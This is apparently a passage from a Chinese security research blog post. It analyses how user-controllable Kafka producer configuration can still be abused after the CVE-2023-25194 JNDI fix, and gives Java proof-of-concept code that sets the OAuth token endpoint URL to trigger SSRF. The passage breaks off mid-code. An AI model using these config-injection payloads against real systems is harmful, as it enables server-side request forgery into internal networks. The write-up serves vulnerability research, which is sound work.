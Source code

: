 # 概述
23年上半年的时候kafka出了一个漏洞[CVE-2023-25194](https://github.com/Enokiy/javaThings/blob/main/KafkaDemo/README.md),当时测试的时候发现产品用的版本比较低，而且把用户可控的输入最终全放到了kafka的配置项中了，后面回归的时候发现产品的修改方式是仅仅升级了版本，但是配置项可控的问题没解决，因此继续分析当kafka的版本更新了之后，配置项可控的情况下可能有什么漏洞~

# 利用

使用如下代码模拟kafka 配置项可控：
```java

public class ProducerFileReadDemo {
    public static void main(String[] args) {
        
        // 模拟kafkaConfig参数外部可控
        Map<String,String> kafkaConfig = new HashMap<>();
        

        Map<String,Object> configs = new HashMap<>(16);
        configs.put(ProducerConfig.KEY_SERIALIZER_CLASS_CONFIG, StringSerializer.class.getName());
        configs.put(ProducerConfig.VALUE_SERIALIZER_CLASS_CONFIG, StringSerializer.class.getName());
        configs.putAll(kafkaConfig);

        //Create the Kafka producer
        KafkaProducer<String, String> producer = new KafkaProducer<>(configs);
        producer.close();
    }
}
```
上半年的分析里通过sasl.jaas.config修改登录模块为com.sun.security.auth.module.JndiLoginModule并指定provider.url为ldap server时可最终触发InitialContext.lookup，进而实现RCE。但是当前的环境里kafk版本已经升级到3.4.0了，升级后版本中sasl.jaas.config中禁用了com.sun.security.auth.module.JndiLoginModule，RCE是没法玩了。

继续分析kafkaProducer的配置项，发现有配置项中可以指定url：[sasl.oauthbearer.token.endpoint.url](https://docs.confluent.io/platform/current/installation/configuration/producer-configs.html#sasl-oauthbearer-token-endpoint-url),既然可以指定url，那是否可以利用这个配置项进行SSRF攻击呢？大佬告诉我们答案是肯定的~

## SSRF

参考[kafka配置oauth认证](https://docs.confluent.io/cloud/current/access-management/authenticate/oauth/configure-clients-oauth.html)先给出poc和结论如下：
```java
public class ProducerConfigInject {
    public static void main(String[] args) {
        // kafkaConfig 外部可控
        Map<String,String> kafkaConfig = new HashMap<>();
        kafkaConfig.put("bootstrap.servers","127.0.0.1:9092");
        kafkaConfig.put("security.protocol","SASL_SSL");
        kafkaConfig.put("sasl.oauthbearer.token.endpoint.url","http://127.0.0.1:8888/ssrf/evil/url"); // SSRF URL
        kafkaConfig.put("sasl.login.callback.handler.class","org.apache.kafka.common.security.oauthbearer.secured.OAuthBearerLoginCallbackHandler");
        kafkaConfig.put("sasl.mechanism","OAUTHBEARER");
        kafkaConfig.put("sasl.jaas.config","org.apache.kafka.common.security.oauthbearer.OAuthBearerLoginModule required clientId='enokiy' scope='enokiy' clientSecret='enokiy';");

        Map<String,Object> configs = new HashMap<>(16);
        configs.put(ProducerConfig.KEY_SERIALIZER_CLASS_CONFIG, StringSerializer.class.getName());
        configs.put(ProducerConfig.VALUE_SERIALIZER_CLASS_CONFIG, StringSerializer.class.getName());
        configs.putAll(kafkaConfig);

```